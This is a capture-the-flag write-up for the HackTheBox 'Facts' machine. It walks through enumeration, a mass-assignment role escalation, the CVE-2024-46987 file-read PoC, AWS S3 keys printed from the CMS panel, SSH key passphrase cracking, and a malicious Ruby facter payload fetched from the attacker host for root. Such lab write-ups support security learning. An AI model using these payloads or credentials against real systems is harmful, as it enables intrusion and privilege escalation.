# Facts — Write-Up

| Field | Detail |
|---|---|
| **Machine** | [Facts](https://app.hackthebox.com/machines/Facts) |
| **Platform** | [HackTheBox](https://app.hackthebox.com/) |
| **Operating System** | Linux (Ubuntu) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

A full Nmap scan is launched to discover active services:

```bash
nmap -p- -sCV -T5 --open -vvv -oN Facts 10.129.14.49
```



Open ports:
- **Port 22** — SSH (OpenSSH 9.9p1, Ubuntu)
- **Port 80** — HTTP (nginx 1.26.3, Ubuntu)
- **Port 54321** — HTTP (Golang net/http — MinIO)

The scan fingerprints on port 54321 also reveal references to `Trinity.txt.bak` and an S3 endpoint, indicating an exposed MinIO server.

### Hosts File Configuration

The domain `facts.htb` is added to `/etc/hosts` to correctly resolve the virtual host:

```bash
echo "10.129.14.49 facts.htb" >> /etc/hosts
```



---

## Web Enumeration

Browsing to `facts.htb` shows a trivia application called **FACTS** with a "Start Exploring" button:



### Directory Fuzzing

**ffuf** is run against `facts.htb` to discover additional paths:

```bash
ffuf -u http://facts.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



Relevant paths are discovered: `/admin`, `/search`, `/sitemap`, `/robots`, among others.

### Admin Panel

Browsing to `facts.htb/admin/login` shows a CMS login form:



A registration endpoint is also found at `facts.htb/admin/register`. An account is created with username **JJ** and password **pepe**:



After registration the CMS dashboard is accessible. The footer reveals the software: **Camaleon CMS version 2.9.0**:



---

## Exploitation — CVE-2024-46987 (Camaleon CMS Arbitrary File Read)

### Vulnerability Research

The CMS version is researched and **CVE-2024-46987** is found: a Path Traversal / LFI vulnerability in the `download_private_file` method of the `MediaController` in Camaleon CMS 2.8.0 to 2.9.0, allowing authenticated users to read arbitrary server files:



### Cloning the Exploit

The Python PoC repository is cloned:

```bash
git clone https://github.com/Goultarde/CVE-2024-46987
```



### CMS Privilege Escalation — Mass Assignment

Administrator credentials are needed before running the exploit. The profile update request is intercepted with **Burp Suite**:



The parameter `&password[role]=admin` is appended to the request body to exploit a mass assignment vulnerability and self-assign the admin role:



The panel is refreshed and full admin access is confirmed, with all menus enabled (Users, Settings, Plugins, etc.):



### File Read with the Exploit

With admin credentials the exploit is run to read `/etc/passwd` and discover system users:

```bash
python3 CVE-2024-46987.py -u 'http://facts.htb' -l 'JJ' -p 'pepe' '/etc/passwd'
```


Two users with valid shells are identified: **trivia** and **william**.

### Exposed AWS S3 Credentials in the Panel

Under **Settings → General Site → Filesystem Settings**, AWS S3 credentials configured in the application are found:

- **Access Key:** `AKIA8A2C6AC6FBE2D7F4`
- **Secret Key:** `5QCdcJ9aZkIfshCtfj5urkd5pRIRQwFzBQu9a2kt`
- **Bucket:** `internal`
- **Endpoint:** `http://localhost:54321`



---

## Initial Access — SSH Key from S3 Bucket

### AWS Client Configuration

The discovered credentials are configured in the AWS client:

```bash
aws configure
```



### Downloading the Internal Bucket

The contents of the `s3://internal` bucket are downloaded pointing to the MinIO endpoint exposed on port 54321:

```bash
aws s3 cp --recursive --endpoint-url http://facts.htb:54321 s3://internal ./s3bucket
```



### Exploring the Bucket

The downloaded directory is listed. A `.ssh` folder is found:

```bash
ls -a
```



### SSH Key Theft and Cracking

The private SSH key found in the bucket is read:

```bash
cat id_ed25519
```

The hash is extracted with **ssh2john** and cracked with **John the Ripper**:

```bash
ssh2john id_ed25519 > hash
john hash --wordlist=/home/kali/Escritorio/rockyou.txt
```

The passphrase obtained is: **dragonballz**



### SSH Connection

An SSH connection is established as user **trivia** using the private key and discovered passphrase:

```bash
chmod 600 .ssh/id_ed25519
ssh trivia@facts.htb -i .ssh/id_ed25519
```



### User Flag

```bash
cd /home/william
ls
cat user.txt
```



---

## Privilege Escalation — sudo facter

### Sudo Permissions Enumeration

Sudo privileges for `trivia` are checked:

```bash
sudo -l
```



```
(ALL) NOPASSWD: /usr/bin/facter
```

The user can run **facter** as root without a password. Facter is a system inventory tool that accepts the `--custom-dir` parameter to load custom `.rb` files, allowing arbitrary Ruby code execution as root.

### Creating the Ruby Exploit

A file `exploit.rb` is created in `/tmp` with a payload that spawns a root shell:

```ruby
Facter.add(:escalada) do
  setcode do
    system("/bin/bash -p")
  end
end
```



### Transferring the Exploit to the Target

An HTTP server is started on the attacker machine and the file is downloaded from the victim:

```bash
# Attacker
python3 -m http.server 65

# Victim
cd /tmp
wget http://10.10.14.137:65/exploit.rb
```



### Execution and Escalation

Facter is executed with the custom directory pointing to `/tmp`:

```bash
sudo /usr/bin/facter --custom-dir /tmp
whoami
# root
```



### Root Flag

```bash
cd /root
ls
cat root.txt
```



---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port Scan | `nmap` |
| Web enumeration | Directory fuzzing | `ffuf` |
| CMS access | Account registration | Browser |
| CMS privilege escalation | Mass Assignment (`password[role]=admin`) | Burp Suite |
| Exploitation | LFI / Path Traversal (CVE-2024-46987) | Python PoC |
| Credential gathering | Exposed AWS S3 credentials in Settings | Browser |
| Initial access | SSH key stolen from S3 bucket + passphrase cracking | `aws` / `ssh2john` / `john` |
| Privilege escalation | `sudo facter --custom-dir` with malicious `.rb` file | `facter` / Ruby |
